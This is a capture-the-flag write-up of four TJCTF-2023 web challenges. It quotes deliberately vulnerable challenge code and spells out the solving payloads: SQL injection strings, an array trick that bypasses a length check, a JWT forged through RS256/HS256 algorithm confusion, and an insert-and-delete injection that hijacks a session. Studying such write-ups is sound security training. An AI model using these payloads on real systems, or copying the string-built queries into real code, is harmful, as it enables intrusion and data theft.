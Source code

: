 # **(Write up) WEB Challenge TJCTF-2023**

* ## [web/swill-squill]

Source code: [here](https://github.com/l0gs3c/CTF-writeup/tree/20b83632718f36650922570d75d6458422ce2039/TJCTF-2023/swill-squill)

```
def create_db():
    conn = sqlite3.connect(':memory:')
    c = conn.cursor()
    ...
    c.execute(
        'CREATE TABLE notes (description text, owner text)')
    c.execute('INSERT INTO notes VALUES (?, ?)',
              ("Saved this flag for safekeeping: "+flag, 'admin'))
```

The flag is in the note column of the description table with the owner as admin.
```
def post_register():
    name = request.form['name']
    grade = request.form['grade']

    if name == 'admin':
        return make_response(redirect('/'))

    res = make_response(redirect('/api'))
    res.set_cookie("jwt_auth", generate_token(name))

    c = conn.cursor()
    c.execute("SELECT * FROM users WHERE name == '"+name+"';")
```
I just replace the username parameter with payload `admin'--` to bypass `if name == 'admin'` and get `jwt_auth`.
```
name = load_token(request.cookies.get('jwt_auth'))['name']

    c = conn.cursor()

    string = "SELECT description FROM notes WHERE owner == '" + name + "';"
```
Then I send a request to /api and read the flag from admin's note.

* ## [web/ez-sql]

Source code: [here](https://github.com/l0gs3c/CTF-writeup/tree/20b83632718f36650922570d75d6458422ce2039/TJCTF-2023/ezsql)
```
app.get('/search', (req, res) => {
    const { name } = req.query;

    if (!name) {
        return res.status(400).send({ err: 'Bad request' });
    }

    if (name.length > 6) {
        return res.status(400).send({ err: 'Bad request' });
    }

    db.all(`SELECT * FROM jokes WHERE joke LIKE '%${name}%'`, (err, rows) => {
        if (err) {
            console.error(err.message);
            return res.status(500).send('Internal server error');
        }

        return res.send(rows);
    });
});
```
This challenge has a sql injection vulnerability in the name parameter of API /search.

To bypass `name.length > 6`, I send arrays instead of strings (http://example.com/search?name[0]=aaaaaaa).

And now, name.length=1 (1 element in the array)

<img src= "ezsql/Screenshot 2023-05-27 131537.png">

Check to make sure sql can be injected with simple payload: `name[0]=aaaaaaa%25'--`
<img src= "ezsql/Screenshot 2023-05-27 131800.png">

Extract table name contain flag: name[0]=aaaaaaa%' union select 1, tbl_name FROM sqlite_master--
<img src= "ezsql/Screenshot 2023-05-27 131429.png">

Extract flag:
<img src= "ezsql/Screenshot 2023-05-27 131659.png">

* ## [web/back-to-the-past](https://github.com/l0gs3c/CTF-writeup/tree/20b83632718f36650922570d75d6458422ce2039/TJCTF-2023/back-to-the-past)
Source code: [here](https://github.com/l0gs3c/CTF-writeup/tree/20b83632718f36650922570d75d6458422ce2039/TJCTF-2023/back-to-the-past)

Insecure signature authentication.
```
def generate_token(id, username, year):
    return jwt.encode(
        {"id": id, "username": username, "year": year}, private_key, algorithm="RS256"
    )
def verify_token(token):
    try:
        return jwt.decode(token.encode(), public_key, algorithms=["HS256", "RS256"])
    except:
        return None
```
Public key used to authenticate leaked signature ([public key here](https://github.com/l0gs3c/CTF-writeup/blob/20b83632718f36650922570d75d6458422ce2039/TJCTF-2023/back-to-the-past/static/public_key.pem)). I can use it to generate fake JWT signature using HS256 algorithm.

Then, I send a request to `/retro` with the fake JWT to get the flag (in the fake JWT payload there is a `year` field less than 1970).
```@app.route("/retro")
@login_required()
def retro(user):
    if int(user["year"]) > 1970:
        return render_template("retro.html", flag="you aren't *retro* enough")
    else:
        return render_template("retro.html", flag=flag)
```

Code written by me in Python to generate and validate JWT: [here](https://github.com/l0gs3c/CTF-writeup/blob/20b83632718f36650922570d75d6458422ce2039/TJCTF-2023/back-to-the-past/solution.py)

* ## [web/notes](https://github.com/l0gs3c/CTF-writeup/tree/20b83632718f36650922570d75d6458422ce2039/TJCTF-2023/notes)
Source code: [here](https://github.com/l0gs3c/CTF-writeup/tree/20b83632718f36650922570d75d6458422ce2039/TJCTF-2023/notes)

```
pool.query(`SELECT * FROM notes WHERE user_id = '${req.session.user_id}';`, (err, results) => {
        pool.query(`SELECT * FROM users WHERE id = '${req.session.user_id}';`, (err, users) => {
            res.render('index', { notes: results, user: users[0] || { username: flag } });
        });
    });
```
To get the flag in this challenge, I have to delete the user account row, while that user id still exists in `req.session.userid` variable.

But when the query delete user account is successful or not, `session` is still deleted

My solution to this challenge:

1. Jnject sql into password parameter to /register to create 2 users and create session for user1 on browser A.
```
app.post('/register', (req, res) => {
    if (req.session.user_id)
        return res.redirect('/');

    if (!req.body.username || !req.body.password)
        return res.redirect('/register?e=missing%20fields');

    const id = v4();
    pool.query(`INSERT INTO users (id, username, password) VALUES ('${id}', '${req.body.username}', '${req.body.password}');`, (err, results) => {
        if (err) {
            res.redirect('/register?e=user%20already%20exists');
        } else {
            associateSessionWithUser(id, req.session);
            res.redirect('/');
        }
    });
});
```
Payload:
```
username = user1
password = pass1'), ('idu2', 'user2', 'pass2');-- -
```
2. Login user2 account on browser B.

Now the query will work normally, session for user2 is created

3. In browser A, I send a request to `/user/delete` with `password = incorpass' or username = 'user2'-- -`

```
    const id = req.session.user_id;

    pool.query(`DELETE FROM users WHERE id = '${id}' AND password = '${req.body.password}';`, (err, results) => {

        pool.query(`SELECT * FROM users WHERE id = '${id}' AND password != '${req.body.password}';`, (err, results) => {

            if (err)
                return res.redirect('/?e=an%20error%20occurred');

            if (results.length !== 0)
                return res.redirect('/?e=incorrect%20password');

            sessions[id].forEach(session => {
                session.destroy();
            });
```
`user1` password is wrong, delete query will delete `user2` account, and user1 session.

4. Reload page in browser B

Now the things that still exist include user1 account and user2 session

Reload the page with `user2` session, `username2` will be replaced with `flag`
